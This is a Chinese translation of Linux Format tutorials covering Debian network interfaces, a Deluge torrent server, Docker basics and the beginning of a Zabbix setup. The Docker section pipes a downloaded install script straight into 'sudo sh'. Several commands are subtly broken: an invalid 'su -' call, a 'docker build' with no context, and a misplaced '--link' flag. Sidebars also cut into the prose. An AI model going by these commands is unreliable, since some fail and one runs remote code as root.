我们专注于 Red Hat 的配置方法，CentOS 使用相同的模型。当然，基于 Red Hat 的发行版并不是用于服务器的唯一流行发行版——事实上，许多人更喜欢使用 Debian，或其较年轻、流行的变体 Ubuntu。

然而，基于 Debian 的发行版采用了不同的方法。我们向你介绍的所有工具，例如 `ip` 命令套件、`ping` 等，仍然有效。更重要的是，文件如 `/etc/resolv.conf` 和 `/etc/hosts` 仍然在相同的位置。

主要区别在于接口配置文件。与 Red Hat 的 `ifcfg-eth0` 和 `ifcfg-eth1` 文件等将配置拆分到单独文件不同，基于 Debian 的发行版使用 `/etc/network/interfaces` 文件，将所有内容放在一个位置。

```
auto eth0
iface eth0 inet static
address 192.168.1.2
netmask 255.255.255.0
```

第一行 `auto eth0` 表示 eth0 接口应在运行 `ifup -a` 时或系统启动时启动。

下面以 `iface` 开始的段提供了该接口配置的详细信息。我们首先指定正在配置的接口名称，然后指定连接协议。虽然有几个选项可用，但 `inet` 将是最常见的，指的是 IP 网络。

`static` 是一个方法，其他选项包括 `dhcp` 和 `bootp`。方法可以接受进一步的选项，这些选项在标题下方作为缩进行给出。此示例非常简单，指定了此接口的 IP 地址和子网掩码。

有关更多信息以及可用选项的详细信息，请参阅 `/etc/network/interfaces` 的 man 手册。

## Deluge: 设置一个

《Linux Format》向你展示如何使用 Deluge 将一台旧电脑，甚至你心爱的 Raspberry Pi，变成一台始终在线的种子下载机。

如果你和我们一样，总是寻找回收旧闲置电脑的项目。那么将这样一台无法运行现代桌面的机器用作始终在线的无头种子下载机，是最好的用途之一。有了种子下载机，你可以从网络上的任何其他系统添加、管理和分享种子。你可以将无头种子下载机藏在角落，让它慢慢处理你的下载任务。此外，在下载种子时，拥有一台始终在线的机器有助于你在追踪器上保持健康的分享比例。

开始时，你需要为种子下载机配备显示器和键盘。但一旦全部设置完成，你就可以拔掉显示器和输入设备。只要它连接到本地网络，无论是通过以太网还是更好的无线方式，你就可以远程添加更多种子并访问下载的数据。

首先，你需要擦除种子下载机上的硬盘，并安装你选择的服务器操作系统的全新副本，在我们的例子中是 Ubuntu Server。该发行版的系统要求很低，因为它不安装图形桌面。


有一点你需要确保的是，你使用的电脑有足够的存储空间来容纳所有下载的数据。为了与网络上其他系统和设备最大程度兼容，最好使用 NTFS 文件系统格式化存储区域。如果你计划将同一块磁盘也用于操作系统，最好将操作系统文件放在单独的分区上。

Linux 上有许多种子客户端可用。我们将在这个小项目中使用 Deluge BitTorrent 客户端，它可以在我们的无头服务器上作为守护进程运行，并接受来自其他 Deluge 客户端的连接。Deluge 客户端是跨平台的，因此你可以从 Linux、Windows 和 Mac OS X 连接到种子下载机。

Deluge 提供多种远程访问方式。你可以通过基于浏览器的用户界面访问基本功能。设置起来并不需要太多工作，但只暴露了 Deluge 的部分功能。要充分利用它，你需要设置 Deluge 守护进程以接受来自其他桌面 Deluge 安装的连接。

## 设置 Deluge

让我们先设置 Deluge 的 WebUI，这并不费力。使用以下命令拉取所需的软件包：`sudo apt-get install deluged python-mako deluge-web`。该命令会自动启动 Deluge 守护进程，但你需要在终端中输入 `deluge-web &` 来启动 Web 界面。

默认情况下 Deluge Web 客户端运行在 `8112` 端口。启动浏览器并指向服务器的 IP 地址，例如 `192.168.3.101:8112`。Deluge Web 界面会提示你输入密码。默认密码是 `deluge`。一旦

## 使用 Raspberry Pi 驱动种子服务器

你可以使用 Raspberry Pi 来驱动种子下载机。安装 Deluge 守护进程和 WebUI 的命令与本教程没有任何不同。当然，Raspberry Pi 没有硬盘，因此你需要使用外部 USB 驱动器以及 Samba 服务器，如漫游中所述（见第 113 页）。

然而，Raspberry Pi 需要一个额外的步骤。你需要做一些 CLI 魔法来确保 Deluge 守护进程和 WebUI 在 Pi 启动时自动启动。为此，复制粘贴 Deluge 开发者为 Ubuntu 提供的两个配置文件（http://bit.ly/1nO2w5）。使它们都可执行并将其添加到启动项中，使用 `sudo chmod 755 /etc/default/deluge-daemon` 和 `sudo update-rc.d deluge-daemon defaults`。

最后，更新 init 文件以包含它们：`sudo chmod 755 /etc/init.d/deluge-daemon` 和 `sudo update-rc.d deluge-daemon defaults`。

添加几个脚本，让你的 Raspberry Pi 作为专用种子服务器使用。


## torrent 服务器

你进入网页界面，Deluge 会提示你更改密码。

在使用网页客户端之前，你需要先连接到 Deluge 守护进程。网页界面会自动启动连接管理器窗口，其中列出了所有正在运行的 Deluge 守护进程。只需选择守护进程并点击连接按钮即可。现在你就可以使用网页客户端来添加和控制在种子盒上运行的所有种子。

如果你想更改网页客户端运行的端口，你需要编辑其配置文件。进入 Deluge 的配置目录 `cd ~/.config/deluge/` 并用你喜欢的文本编辑器打开名为 `web.conf` 的配置文件。向下滚动文件找到写着 `port: 8112` 的行，并将 `8112` 替换为 1000 以上的任意端口号。

### 守护进程的工作

如前所述，要充分利用 Deluge，你需要配置 Deluge 守护进程以接受来自远程客户端的连接。首先通过以下命令启动 Deluge 控制台客户端来对 Deluge 守护进程进行配置更改：

```
sudo apt-get install deluge-console
sudo pkill deluged
```

并用你喜欢的文本编辑器打开其配置文件 `~/.config/deluge/auth`。

滚动到文件底部并输入三个参数来指定你希望使用的用户名和密码，以及守护进程的身份验证级别，用冒号分隔，例如 `my-username:my-password:10`。请记得替换 `my-username` 和 `my-password` 参数。`10` 身份验证级别会赋予守护进程管理员权限。

保存文件并退出文本编辑器。回到控制台，使用 `deluged` 命令启动 Deluge 守护进程。然后在终端中输入 `deluge-console` 进入 Deluge 控制台。这将启动 Deluge 守护进程的命令行界面。

我们将使用控制台使 Deluge 守护进程接受远程连接。在控制台中输入：

```
config -s allow_remote True
```

客户端会确认已成功更改配置值。现在你可以通过输入 `exit` 退出控制台客户端，然后先使用 `sudo pkill deluged` 停止 Deluge 守护进程，再使用 `deluged` 重新启动它来使更改生效。

就这样。Deluge 现在已全部设置好，可以在网络上接受来自远程客户端的连接。按照向导设置客户端以连接到你的盒子。

### 连接到服务器


- 1. **安装客户端**

现在 Deluge 守护进程已准备好接受连接，你需要在网络上的其他计算机上安装 Deluge 桌面客户端。大多数桌面发行版都在其仓库中包含 Deluge，因此你可以从发行版的包管理器下载。Deluge 跨平台，你也可以前往 Deluge 的下载页面获取 Windows 和 Mac OS X 客户端，如有需要。

- 2. **启用经典模式**

默认情况下，Deluge 客户端设置为下载到本地计算机。我们希望更改此行为，因此你需要启动 Deluge 客户端并前往 编辑 > 首选项，然后切换到 接口 类别。在这里你会注意到一个默认启用的经典模式复选框。取消选中此框，点击确定，然后重新启动 Deluge 桌面客户端。

- 3. **添加主机**

重新启动 Deluge 后，它会自动启动连接管理器。在连接管理器中点击添加按钮并输入有关守护进程的连接详细信息。点击添加按钮返回连接管理器。选择添加的条目并点击连接按钮以将客户端与在种子盒上运行的守护进程连接。

**订阅 Linux Format**  http://myfavouritemagazines.co.uk/LINsubs

## 提升你的种子体验


### 1 启用 Deluge 插件

Deluge 包含大量有用的插件。要启用它们，请前往 编辑 > 首选项 并切换到 插件 类别。点击插件旁边的复选框即可启用它。已启用的插件会作为首选项窗口中的单独类别出现。客户端自带八个插件，你可以点击查找更多插件按钮来获取并安装额外的第三方插件。

### 2 有用的插件

一个有用的插件是调度程序，它可让你根据一天中的时间限制带宽使用。通知插件会在种子下载完成时在桌面上显示弹出窗口或向你发送电子邮件提醒。高级用户也会喜欢执行插件，它会在添加新种子或种子下载完成时运行指定的命令。


### 3 Firefox 扩展

如果你使用 Firefox 网络浏览器，可以添加 Bit Torrent WebUI+ Firefox 扩展，它将允许你通过网页界面将种子添加到 Deluge 守护进程。安装扩展后，它会打开一个对话框供你输入 Deluge WebUI 的连接详细信息，以后当你点击种子链接时，种子将被自动添加到远程种子盒。

### 4 Google Chrome 扩展

如果你使用 Chrome 浏览器，可以从 Google Play 商店安装 DelugeSiphon 应用。安装后，你需要点击地址栏中的图标并前往选项页面。输入守护进程的 IP 地址以及 WebUI 的端口号和密码。这将使你能够右键单击任何种子文件并选择发送到 Deluge 选项以添加种子。


### 5 使用移动客户端


你也可以在 Android 设备上安装应用来添加和控制下载。Google Play 商店列出了几款可连接到 Deluge 守护进程的应用。其中两个最受欢迎的应用是 Transdrone 和功能丰富的 TransDroid 应用。前者可在 Play 商店获得，要下载后者，你需要通过智能手机访问官方网站（http://transdroid.org/latest）。

### 6 设置客户端

设置 Transdrone 和 TransDroid 的步骤相同。首次启动应用时，你会收到欢迎通知。点击设置按钮，然后点击添加新服务器按钮。现在选择服务器类型选项并从列表中选择 Deluge 1.2+。然后输入要连接的种子盒的 IP 地址以连接到 Deluge 的网页用户界面。

## 使用 TurnKey Linux Torrent 服务器

TurnKey Linux 项目提供基于 Linux 的、自包含的、以任务为导向的服务器，它们运行在 Just Enough Operating System (JeOS) 组件之上，正如名称所示，这些组件仅提供运行特定应用所需的资源。该项目的 Torrent Server appliance 包含了托管自己的文件服务器所需的所有工具。它还配备了一个多协议文件共享应用，名为 MLDonkey，可用于下载各种类型的文件。

该 appliance 最好的地方在于，安装后你可以通过浏览器远程管理它。你可以上传和下载文件，使用流行的压缩算法（如 ZIP 和 RAR）进行压缩和解压缩，安装额外的软件包，并且可以从网络内任何操作系统上的任何 Web 浏览器，或从互联网上的任何地方执行更多操作。

你可以从 www.turnkeylinux.org/torrentserver 下载该 appliance。你可以直接安装 Torrent Server appliance，或先以 live 模式运行它来尝试其组件。无论是安装还是 live 运行，你都会被提示输入 root 用户的密码以及 appliance 中各个组件的 admin 用户密码：MLDonkey 文件共享应用、P2P-GUI to MLDonkey，以及 eXplorer 文件管理器。

就这样。配置好用户后，torrent 服务器 appliance 将复制所有文件并安装引导加载程序。

> 与我们使用 Deluge 的 torrent 盒不同，TurnKey Torrent Server 使用多功能的 MLDonkey 文件共享应用。

重新启动后，它将引导到配置控制台，其中列出了访问服务器中各种应用的所有地址。


## 将下载保存在外部驱动器上

### 1 挂载外部驱动器

将外部驱动器格式化为 NTFS。然后确保发行版可以读取 NTFS 驱动器，通过使用 `sudo apt-get install ntfs-3g` 安装软件包，并使用 `sudo mkdir /media/usb-disk` 为磁盘创建挂载点。现在插入 USB 设备并使用 `sudo fdisk -l` 查找其设备地址。假设有一个名为 sdb1 的分区，使用 `sudo mount -t auto /dev/sdb1 /media/usb-disk` 将其挂载。


### 2 设置远程访问

使用 `sudo apt-get install samba samba-common-bin` 安装 Samba，以便从远程系统访问 USB 驱动器。然后编辑 `/etc/samba/smb.conf` 并取消注释 `security=user` 行。在文件中创建一个新部分（如上所示），并使用 `sudo useradd downloads -m -G users` 创建一个名为 downloads 的用户以访问共享，并使用 `sudo smbpasswd -a downloads` 将其添加为 Samba 用户。


### 3 创建目录

接下来为 Deluge 创建新的文件夹来存储下载内容。使用 `sudo mkdir /media/usb-disk/torrents/downloading` 和 `sudo mkdir /media/usb-disk/torrents/completed` 创建目录来存储未完成和已完成的下载。使用 `sudo mkdir /media/usb-disk/torrents/watch` 创建另一个目录。我们将配置 Deluge 扫描此目录并自动添加任何新的 `.torrent` 文件。


### 4 将它们接入 Deluge

创建目录后，你需要将它们接入 Deluge 桌面客户端。启动 Deluge 并前往 Edit > Preferences。在 Preferences 窗口中，选择 Downloads 类别，可在此指定存储下载的不同文件夹。切换前两个选项旁边的单选框，并使用文件管理器指向已连接到该设备的外部驱动器上创建的文件夹。


## Docker：构建容器

Linux Format 审视 Docker，这一项目承诺解决各种应用开发和部署方面的头痛问题。


任何对虚拟化、'云' 或 DevOps 有一点兴趣的人，在过去六个月里无疑都听说过 Docker 和容器。在一个快速发展的领域，Docker 成功抢占了头条，厂商们纷纷争相指出他们已加入潮流，能够运行并在某些情况下增强这项新技术。但 Docker 究竟是什么，为什么你应该关心？

为了深入了解新事物的工作原理，本教程中我们将研究容器、一些 Docker 功能并构建一些示例。我们在撰写本文时使用的是 Ubuntu 14.04 桌面系统，但 Docker 对发行版的依赖性很低，因此你应该能在大多数系统上遵循这些说明。

容器作为软件概念在 Unix 上已存在一段时间。久负盛名的 `chroot`（最初于 1979 年编写）引入了在虚拟化操作系统的副本中运行程序以实现安全目的的想法（尽管系统管理员需要进行一些手动操作才能使其运行），并且至今仍在使用。FreeBSD 引入了 `jail` 命令，进一步丰富了这一概念并在更大程度上将系统进行区隔。Solaris、AIX 和 HP-UX 也有各自的变体，但正如你所料，Linux 在此方面领先，有多个项目提供了该想法的略有不同的实现。这些项目建立在名为 `cgroups` 的内核功能之上，该功能（非常简单地说）提供了一种将一组进程捆绑在一起并管理其系统资源消耗的方法。与 `cgroups` 相关的是另一个内核功能：`namespace isolation`，它使一组进程能够与同一系统上的其他进程隔离（因此它们无法感知其他进程的资源）。

## 全部关于应用

Docker 是上述项目之一，但与其他项目相比有几点不同，使其脱颖而出。如 Docker FAQ（http://docs.docker.com/faq）所述，它并不是底层 LXC 技术的替代品，而是在其之上增加了一些有用的功能。Docker 非常专注于应用而非完整的操作系统，承诺将容器虚拟化与应用管理和部署的工作流程和工具相结合。它还使容器（从而应用）能够在系统之间可移植地移动并保持不变。加上能够让开发者从源代码组装容器的工具、容器版本控制（方式与 git 非常相似）以及组件重用（使用容器作为基础镜像并在其上构建），难怪 Docker 能够获得如此关注

快速提示

Docker 项目喜欢将自己的容器与航运中的等价物进行比较：一个具有标准属性的箱子——约定的尺寸和特性，无论其包含物如何，都可以被举起并在世界各地移动。


1 在我们非常第一个 Docker 容器内部——你可能见过的最奇怪的 top 输出

自 2013 年推出以来就备受关注 – 当系统上线并在生产环境中部署失败时，程序员和运维人员之间再也不会出现“在我机器上能运行”之类的争论！

## 小盒子，小盒子

在 DevOps 乌托邦的承诺面前，让我们不要再浪费时间，开始安装 Docker 的业务吧。截至撰写时，Ubuntu 14.04 的软件仓库中软件版本为 0.91。让我们稍微冒险一点（或可能更少一点）来注意：在基于 Debian 的系统上，维护的软件包称为 `docker.io`，因为 `docker` 这个名称很久以前就被一个“用于 kde/gnome docker 应用的系统托盘”占用了。基于 Red Hat 的系统仍使用‘docker’。

Docker 提供了一个方便的小脚本，用于确保我们的系统可以与 https apt 源配合使用，并在安装软件包之前将其仓库添加到我们的源中，并将其密钥添加到我们的密钥环中。运行以下命令来查看它（在系统上运行程序之前至少进行粗略检查通常是很好的做法）。


```
curl -sSL https://get.docker.io/ubuntu/
```

一旦你确信它不会安装最新的 NSA 后门或窃取比特币的外国恶意软件，你就可以让它运行：

```
curl -sSL https://get.docker.io/ubuntu/ | sudo sh
```

这将安装一些软件包并启动一个 `docker` `daemon` 进程，你可以通过 `ps` 命令确认其正在运行。其他发行版的说明可以在官方网站上找到（http://bit.ly/DockerInstalls）。现在让我们用传统的‘Hello, World!’直接上手，以确认一切按预期工作！

```
sudo docker run ubuntu /bin/echo "Hello, World!"
```

你会看到一条消息说本地找不到 Ubuntu 镜像，并且会下载一个镜像（通过 Docker Hub）以及一些更新。值得庆幸的是，一旦镜像下载完成，它会保留在缓存中，后续运行会快得多。一旦一切准备就绪，神奇的文字就会出现。但这里发生了什么？`docker run` 命令正如你所期望的那样工作：它运行一个容器。我们要求使用 Ubuntu 镜像来创建容器，当 Docker 找不到本地副本时，它会从其 hub 拉取。最后，我们要求在其中运行简单的 `echo` 命令。一旦 Docker 完成任务，容器就会关闭。我们可以通过使用 `-i` 和 `-t` 标志以更交互的方式使用此下载的镜像，这使我们能够使用容器的 STDIN 并获得终端连接。

```
sudo docker run -i -t ubuntu /bin/bash
```

这应该几乎立即在容器本身内提供一个 `root` 提示。希望它出现的速度是 Docker 受欢迎的原因之一。容器非常快速且轻量。许多容器可以在一个系统上共存，比如果它们更像传统的重量级虚拟机，则无法处理的容器要多得多。这部分是由于 Docker 使用联合文件系统，这些文件系统通过创建层来操作。这使它们极其快速。正如你所期望的，Linux 带有不止一个变体。Docker 默认使用 `devicemapper`，但也支持 `AUFS`、`btrfs` 和 `vfs`。

从该提示符运行几个命令，例如 `df -h`、`ls` 和最后 `top`。虽然前两个的输出看起来相当普通，但 `top` 将显示一个相当奇怪的情况：只有两个正在运行的进程：`bash` 和 `top` 命令本身。通过按 `q` 退出这种奇怪的矩阵式情况（退出


Docker 网站 – 这里没有苍白的鲸鱼 – 并包含一个实时在线教程，大约 10 分钟内讲解基础知识。

## Hypervisors vs Containers – 有什么区别？

如今，系统管理员在被要求设计新基础设施时，有大量可供考虑的选项。任何人都可以原谅在虚拟化迷宫中迷路。所以超visor 和基于容器的系统到底有什么区别？超visor 源于 1960 年代的 IBM 系统，通过让主机系统在多个客户系统（或虚拟机）之间共享硬件资源来工作。超visor 管理客户操作系统的执行，并向它们呈现底层资源的虚拟化表示。有几种不同的类型：

- Type 1 hypervisors 这些是在任何客户系统之前安装的，并直接与底层硬件一起工作（VMware 就是这种方法的例子）。
- Type 2 hypervisors 在传统操作系统之上运行，客户位于其上方的另一个层级（这就是 Virtualbox 的工作原理）。

容器 however，通过让操作系统的内核在‘用户空间’（即内核之外）中运行隔离的进程来工作。这可以只是一个单一应用程序，因此不需要完整操作系统的开销（然后需要维护、修补等）。容器还有一个好处是它们非常轻量。事实上，许多容器可以在同一硬件上运行，但不能运行‘其他’操作系统（例如 Windows），因此被认为不如超visor 本质上安全。

通常情况下，选择最适合特定情况或环境的虚拟化技术。应考虑成本、现有系统、管理工具和技能集等问题。然而这两种方法并不相互排斥，实际上可以互补 – 许多 Docker 采用者承认在基于超visor 的客户机中运行它。虚拟化是一个活跃的开发领域，开源处于前沿。

### Quick tip

`LXC`（Linux Containers）既可以指内核的底层功能（`cgroups` 等），也可以指维护用户空间工具的项目 – 值得一看，已达到 1.0 版本。

更多网络 借助 Zabbix 跟踪一切，见 p118。

## 网络

首先，如果你还没退出的话，输入 `exit` 即可退出；Docker 随后会关闭我们的容器。你可以通过运行 `sudo docker ps` 来确认这一过程，此时只会显示一些表头，没有任何运行中的容器。当然，Docker 也可以处理守护进程，它们不会在我们操作完成后立即退出，所以让我们启动一个试试：`sudo docker run -d ubuntu /bin/bash -c "echo 'yawn'; sleep 60"`

这次我们使用 `-d` 标志启动容器并将其置于后台运行，Docker 会返回一个容器 ID。我们的简单命令行在容器中运行，并进入休眠状态。现在我们可以看到 `sudo docker ps` 提供了更多信息，包括 Docker 为容器分配的一个相当有趣的名字（在我们的测试中是“pensive_franklin”）。我们可以使用这个名字来查看容器正在做什么：`sudo docker logs pensive_franklin`，它应该返回一个略显沉闷的哈欠，来自我们那个短暂运行中的进程。当 `sleep` 命令的 60 秒结束后，Docker 再次挥下斧头，容器就此消失。如果我们为 `sleep` 命令设置更大的值，又等得不耐烦，可以通过以下方式使用 `docker stop` 命令：`sudo docker stop pensive_franklin`

我们可以再尝试几次 `docker run` 命令，试验不同的命令行。当我们玩够了这些把戏后，运行 `sudo docker ps -a` 可以查看所有容器，包括未运行的容器。这里还有很多其他标志可用，我们建议查看 `man docker-ps`。

### 一个更有用的示例

这一切固然不错，但有没有更有用的场景呢？一个非常适合容器的轻量级应用典范就是 Nginx [参见第 76 页]——高性能的 Web/缓存/负载均衡/代理服务器。我们能否轻松地搭建一个全新的 Nginx 实例，并让它随时准备提供网页服务呢？让我们来看看！

快速浏览一下 Docker Hub (https://registry.hub.docker.com)，可以看到 Nginx 在首页上拥有官方仓库。我们可以使用 `pull` 参数将其拉取到本地机器：`sudo docker pull nginx`

过一会儿（有相当大小的层需要下载），我们的镜像就准备好了。我们可以通过在命令提示符下运行 `sudo docker images` 来查看本地已有的镜像。现在，我们可以通过运行以下命令快速验证 Nginx 是否正常工作：`sudo docker run -d -p 8080:80 nginx` `sudo docker ps`

假设 Nginx 显示为运行状态，我们可以将桌面浏览器连接到 http://127.0.0.1:8080 查看默认的 Nginx 页面。一切顺利。但我们如何向其中添加内容呢？首先，让我们通过 `sudo docker stop <那个有趣的名字>` 命令停止正在运行的容器，然后创建一个非常基本的示例文件。打开你喜欢的文本编辑器，创建以下内容，并保存为 `docker-example.html`。最好在一个新的子目录中操作——名称随意——以免其他文件干扰 Docker。然后将该文件保存在新目录下的一个子目录中，并将那个子目录命名为 `content`。

```html
<html>
<head>
<title>Here is our dockerized web site!</title>
</head>
<body>
<h1>We are running in a container</h1>
</body>
</html>
```

Docker Hub 包含了来自常见发行版的许多预定义 Linux 容器。


### 你的 Docker 镜像是否损坏？

开源和 Linux 最大的优点之一就是众说纷纭的思想和观点，尤其是在正确运行系统的方法上。其中一例在 Docker 世界中引起了小小的波澜：Phusion——知名产品/项目 Phusion Passenger（广泛用于 Ruby on Rails 和其他 Web 开发环境）的团队——发布了它的 Docker 镜像（可在 Docker Hub 上的 `phusion/baseimage` 获取）。他们认为，Docker 常见的运行单一应用程序进程的做法（正如本教程中 `top` 输出所示）意味着许多重要的系统服务不会在容器中运行，尤其是 `init` 进程会缺失。


尽管使用容器的全部意义在于打造一个非常轻量级的系统——如果你想要完整的操作系统，直接用虚拟机好了——但 `init` 承担着非常重要的任务，即继承孤儿子进程；如果容器中出现任何孤儿子进程，它们最终会变成无家可归的僵尸进程。Phusion 团队还认为，有些进程至关重要（如 `cron`、`syslog` 和 `ssh`），无论系统多轻量级，它们都应始终存在于 Linux 操作系统中；而且，粗暴地切断系统底层而不通过 `init` 正常关闭系统，很可能会导致数据损坏。关于这种做法是否会让 Docker 容器变得过于复杂和臃肿，各方意见不一，但这个镜像在 Docker Hub 上很受欢迎，非常值得一看。

## 更多网络相关内容

搭建你自己的云服务器，参见第 78 页。


尽情地根据自己的想法为这个史诗般的网页示例添砖加瓦吧。现在，我们将创建一个 `Dockerfile`（该文件必须命名为 `Dockerfile`）。这只是一个文本文件，包含我们原本会在提示符下交互式输入的命令。我们可以改为执行 `docker build` 命令，让 Docker 替我们完成这项艰苦（？）的工作。当然，这个示例很简单，但将我们的 `content` 目录添加到了现有的 Nginx 镜像文件中。

```
FROM nginx
ADD content /usr/local/nginx/html
```

现在运行 `docker build` 命令

```
sudo docker build -t nginx:test
```

这里的 `-t nginx:test` 选项告诉 Docker，如果构建成功（希望如此），我们希望如何命名新镜像。现在让我们运行它，并确认其已启动：

```
sudo docker run --name whatever -d -p 8080:80 nginx:test
sudo docker ps
```

## 对容器进行更改

`--name` 标志允许我们为新容器指定一个我们自己选择的名字，而不是 Docker 自动生成的名称（尽管那些名字也挺有趣）。`-p` 标志，可能显而易见，将本地主机的 8080 端口映射到容器内部的 80 端口。容器拥有自己的内部 IP 地址，可以通过以下命令查看：

```
sudo docker inspect whatever
```

这会以 JSON 格式返回一大堆关于系统的信息。现在，我们可以通过访问 `http://127.0.0.1:8080/docker_example.html` 来看到自己劳动的成果。虽然 Facebook 很可能不会因为看到我们的新网站而吓得发抖，但我们证明了我们能以多快的速度让一台服务器启动并运行。如果我们愿意，我们可以运行数十乃至数百个这样的 Nginx 容器，其风格让人想起那些最廉价、最冷酷无情的虚拟主机公司。

Docker 在执行构建命令时，会获取我们的基础镜像并把我们的更改添加进去——这个新层随后会被作为独立的容器保存下来。更进一步，我们完全可以轻松地从之前的 Ubuntu 镜像开始，通过 `Dockerfile` 中的多行 `apt-get install` 命令在上面安装大量软件。每一行都会创建一个中间容器，构建于前一个容器之上；一旦更改被提交，前一个容器就会被移除，只留下最终副本。如果需要，也可以手动完成这一过程——我们可以启动 Ubuntu 镜像，在命令行中对其进行修改，退出后再使用 `docker commit` 命令保存更改。这个类似 git 的命令为我们的容器提供了一种版本控制。当我们用完某个容器时，可以使用 `docker stop` 和 `docker rm` 命令为我们清理一切。

## 容器互联

当然，如今一个独立运行的 Web 服务器并没有太大用处。如果我们想建立一个从数据库读取数据的动态网站呢？Docker 有将容器链接在一起的概念。假设我们有一个名为 `data` 的数据库容器，运行着（比如说）MySQL，我们可以按如下方式创建一个新的 Nginx 容器：

```
sudo docker run -d -p 8080:80 --name whatever nginx:test
--link data:mysql
```

现在，Nginx 系统将可以使用别名 `mysql` 来引用数据库，并且系统上会为该数据库创建环境变量和一个 `/etc/hosts` 条目。在这里，Docker 使用安全隧道进行容器之间的流量传输，这意味着数据库无需向外部世界开放端口。Docker 会自动处理这一切。

Docker 还包含一项类似 Vagrant 的功能，可以在 Docker 主机与其上运行的容器之间共享目录。`docker run` 命令的 `-v` 标志可以接受诸如 `-v /home/web/data:/web/data` 等参数，这将使容器看到一个挂载点 `/web/data`。`-v` 标志还可以在容器中创建独立的卷（例如 `-v /data`）。对于持久化数据，建议似乎是创建一个专门的容器来……呃……容纳它，然后将这些数据提供给其他容器使用。它们可以通过在 `docker run` 命令中使用 `--volumes-from` 选项来访问这些数据。

既然我们已经对 Docker 的一些基本功能进行了旋风式游览，在下个月的教程中，我们将了解 Docker 的一些更高级的功能以及这款软件的使用场景。在那之前，请尽情试验你新掌握的容器技能，并查看 `docker` 命令可用的各种选项。另外，官方 Docker 网站（`www.docker.com`）上还有大量深入的额外信息可供挖掘。祝你停靠愉快！

Nginx 运行在 Docker 容器中。这也许看起来像是一个不起眼的开端，但只需一些调整，我们确信硅谷的收购要约将会接踵而至。

## 快速提示

Docker 项目维护着一个与 Vagrant 类似的在线公共镜像仓库，任何人都可以在其中存储 Docker 容器镜像。下载任何内容都不需要账户。

## Zabbix：监控

`Zabbix` 是一款网络监控应用，它监视一切——我们说的就是一切。我们不禁怀疑它是不是索伦之眼的化身。


隐藏在他的堡垒中，系统管理员一览无余。他的目光穿透不同的发行版、不同的设备、磁盘和应用程序。你知道我在说什么，曾花费大量精力绘制出火焰中的巨眼。嗯，并不是那么无眼皮且缠绕着火焰，因为这不是小说，对吧！

`Zabbix` 是一款网络监控应用，可让你跟踪网络上发生的一切。无论网络规模大小，无论不同机器上安装的操作系统如何，`Zabbix` 都能密切关注这些机器的各个方面。使用 `Zabbix`，你可以监控可用磁盘空间、CPU 负载、网络流量统计、内存消耗、应用程序状态、文件的


校验和，以及更多。所有收集的信息都存储在数据库中，你可以使用 `MySQL`、`Oracle` 或 `PostgreSQL`，因为 `Zabbix` 都支持它们。

### 超越竞争对手

但为什么你应该使用 `Zabbix`，当大多数人总是挂在嘴边的是 `Cacti` 和 `Nagios` 呢？

`Zabbix` 就像其更受欢迎的兄弟一样，支持简单网络管理协议（`SNMP`）。这意味着这些应用可以监控网络上几乎任何设备，例如路由器、打印机、交换机、调制解调器等。

虽然 `Nagios` 是监控本地和远程机器及 IT 基础设施的行业标准，但它几乎总是与其它监控工具一起使用。这是因为 `Nagios` 没有可视化功能，无法将记录的数据简化为易于理解的图表。话虽如此，`Nagios` 具有出色的告警功能，可让系统管理员随时了解其跟踪的所有设备。

相比之下，`Cacti` 没有告警机制，但它可以创建精美且详细的图表，表示其在网络设备上收集的所有数据。

我们选择的工具，在发送告警和创建图表方面非常方便。除了通过电子邮件、短信和 Jabber 发送告警外，它还允许你设置自动操作。也就是说，你可以配置 `Zabbix` 在发生某些定义事件时自行对远程机器采取行动。

在可视化方面，`Zabbix` 支持监控项的实时绘图，并提供图表、网络地图、屏幕，甚至幻灯片，使其适用于复杂的网络，其系统管理员更喜欢以图形方式查看数据。

### 了解 Zabbix

监控应用主要执行两个功能。它收集网络上所有设备的数据并将其报告给中央控制机构。`Zabbix` 依靠两个关键组件来执行这些功能——`zabbix-server` 和 `zabbix-agent`。

顾名思义，你需要在网络上希望监控的所有机器上安装 `zabbix-agent`。代理可以监控硬件资源以及应用程序，并将所有收集的信息推送到 `zabbix-server`。目前，`zabbix-agent` 可用于 Linux、FreeBSD、OpenBSD、NetBSD、HP-UX、MacOS X、Solaris 和各种 Windows 版本。


另一部分 `zabbix-server` 负责数据的轮询和捕获。在出现问题或停机时，服务器会向配置的账户发送通知。你只需在网络上安装一个 `zabbix-server` 实例即可。使用 `Zabbix`，你将获得一个集中的 Web 界面，可用于控制网络上监控哪些事件。由于其功能众多，以及它希望实现的目标，界面有时对许多用户来说似乎过于复杂和繁琐。尽管你有所保留和初步印象，我们还是建议你继续你的 Zabbix 之旅。

> 所有的绿色 OK 都证明了我在这里知道自己在做什么。

*你的网络*

### 当事情出错时

尽管该项目提供了出色的文档，如果你从未使用过 Zabbix 等网络监控应用，可能会出现许多问题。这就是为什么你不应在不先熟悉该应用的情况下将其安装到生产服务器上的原因。

配置不当的网络监控器如 Zabbix 可能会极大地消耗你的资源。如果不配置其删除旧数据，数据库可能会占用相当多的磁盘空间。也可能有其它原因让你想要避开 Zabbix。例如，你可能会发现 Zabbix 对于你的需求来说不是最优的，例如当它对你的目的来说过于庞大时。

文档本身并未提供卸载 Zabbix 的任何说明，那该怎么办？嗯，继续阅读，当然！

最明智的解决方案是禁用 Zabbix。但首先，前往 配置 > 主机 并禁用所有已配置的主机。接下来，从网络上的所有机器上卸载 `zabbix-agent` 并停止 `zabbix-server`。

红色意味着“你不能再往前”，但幸运的是 Zabbix 在鼠标悬停时提供了更多详细信息。

### 安装 Zabbix

该项目为少数发行版提供了二进制文件，例如 Debian 和 CentOS，而大多数发行版在其仓库中都提供 Zabbix。但与许多管理工具一样，仓库并不总是提供最新版本。

我们使用 CentOS 作为安装 `zabbix-server` 的基础。网络上还有其它运行其它 Linux 发行版的机器，例如 Linux Mint。

你应该已经在机器上安装了所有必需的 PHP 和 MySQL 包，但如果你在全新系统上安装 Zabbix，以下命令将安装依赖项：

```
su - "yum -y install mysql-server php5-mysql php5-gd"
```

在 CentOS 上安装 Zabbix 的最佳方式是通过 EPEL 仓库，因为官方仓库不提供最新版本。如果它尚未在你的机器上配置，你将必须先设置 EPEL 仓库：

```
su - "yum -y localinstall http://dl.fedoraproject.org/pub/epel/6/i386/epel-release-6-8.noarch.rpm"
su - "yum -y install zabbix20-server-mysql zabbix20-web-mysql"
```

上面的第一个命令将配置并启用仓库。在第二个命令中，我们指定要安装的包，在本例中为 Zabbix 2.0.x

